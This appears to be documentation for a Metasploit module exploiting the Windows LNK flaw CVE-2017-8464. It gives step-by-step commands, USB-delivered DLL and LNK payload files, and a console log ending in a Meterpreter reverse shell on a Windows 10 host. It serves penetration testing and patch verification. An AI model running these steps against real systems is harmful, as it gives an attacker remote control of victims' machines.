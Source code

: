 ## Vulnerable Application

Any Windows versions without the patch for CVE-2017-8464. The exploit doesn't appear to work with UNC drives. Because of this the DLL file needs to be on the local file system or an USB drive. A fix was released on June 2017 Patch Tuesday.

## Vulnerable Setup

To set up the vulnerable environment, install a Windows version without the patch for CVE-2017-8464. To test the bypass, make sure that MS10-046 & MS15-020 are installed.

## Verification Steps

### Start a handler
  1. `use exploit/multi/handler`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit -j`
  5. `back`

### Run the exploit

  1. `use exploit/windows/fileformat/cve_2017_8464_lnk_rce`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit`

### Copy files to USB drive & open on vulnerable system

  1. `cp /root/.msf4/local/* [USB drive path]`
  2. Insert device in target machine and browse to it
  
## Options

**FILENAME**

The file name of the LNK file. This file name can be renamed in a letter stage. If not set, a random name will be generated.

**DLLNAME**

The file name of the DLL file. This file name cannot be renamed as this will invalidate the LNK file(s). If not set, a random name will be generated.

**DRIVE**

Drive letter assigned to USB drive on victim's machine. If not set LNK files for drive D till Z will be created. Copy all these LNK files to the USB drive to make it more likely that the vulnerability is triggered.

### Windows 10 x64 (Build 14393)

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Starting the payload handler...
msf exploit(handler) > back
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce 
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(cve_2017_8464_lnk_rce) > exploit

msf exploit(cve_2017_8464_lnk_rce) > exploit

[*] /root/.msf4/local/kNgYlztVprHPOmHY.dll created, copy it to the root folder of the target USB drive
[*] /root/.msf4/local/SoXXZhgCWEDkbDyA_D.lnk created, copy to the target USB drive
[*] /root/.msf4/local/rfuSAlSFEPmrgsBh_E.lnk created, copy to the target USB drive
[*] /root/.msf4/local/LydLhRBovVRINgUh_F.lnk created, copy to the target USB drive
[*] /root/.msf4/local/xbpnlkcQOYonGpKW_G.lnk created, copy to the target USB drive
[*] /root/.msf4/local/SezkrIUwqIVvMiOZ_H.lnk created, copy to the target USB drive
[*] /root/.msf4/local/UzsJRIdcpoZPpLEj_I.lnk created, copy to the target USB drive
[*] /root/.msf4/local/BxTkakFYhUaxSNyi_J.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dPdanTusElQRKzGZ_K.lnk created, copy to the target USB drive
[*] /root/.msf4/local/cKUaDslpjLshMEpP_L.lnk created, copy to the target USB drive
[*] /root/.msf4/local/RQPOxJeuGqVCQGNB_M.lnk created, copy to the target USB drive
[*] /root/.msf4/local/tLDnpaeIeUavIxqP_N.lnk created, copy to the target USB drive
[*] /root/.msf4/local/VVQOvhpqJYbhINIX_O.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dAIEBrbaixsXjnnm_P.lnk created, copy to the target USB drive
[*] /root/.msf4/local/AoHnIQhKkpnYSOZR_Q.lnk created, copy to the target USB drive
[*] /root/.msf4/local/kZCCppTXKsuGRSCB_R.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vMBPqzoOEoJXhZqQ_S.lnk created, copy to the target USB drive
[*] /root/.msf4/local/ueCsaNzVsljfHKnS_T.lnk created, copy to the target USB drive
[*] /root/.msf4/local/TSCgPoYrFFnZqMsl_U.lnk created, copy to the target USB drive
[*] /root/.msf4/local/QFbXkQeBmCvXezNg_V.lnk created, copy to the target USB drive
[*] /root/.msf4/local/liPaOopqYJbBIrVY_W.lnk created, copy to the target USB drive
[*] /root/.msf4/local/eZiWpyEYbkWHqStW_X.lnk created, copy to the target USB drive
[*] /root/.msf4/local/PawzVPKmvBoSblhA_Y.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vJhDzJUydwYxnLlp_Z.lnk created, copy to the target USB drive
msf exploit(cve_2017_8464_lnk_rce) > 
[*] Sending stage (1189423 bytes) to 192.168.146.193
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.193:50020) at 2017-07-25 19:28:27 +0200
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5G8HK7E
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
